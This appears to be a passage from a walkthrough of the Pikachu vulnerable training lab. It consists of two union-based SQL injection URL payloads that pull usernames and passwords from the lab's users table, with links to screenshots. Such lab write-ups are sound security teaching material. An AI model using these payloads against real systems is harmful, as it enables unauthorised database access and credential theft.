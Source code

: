 ```sql
?id=-1 union select 1,username,password from pikachu.users--+
```



![image-20230814214649437](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814214649437.png)

```sql
?id=-1 union select 1,2,group_concat(username,password) from pikachu.users--+
```

![image-20230814214802971](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814214802971.png)
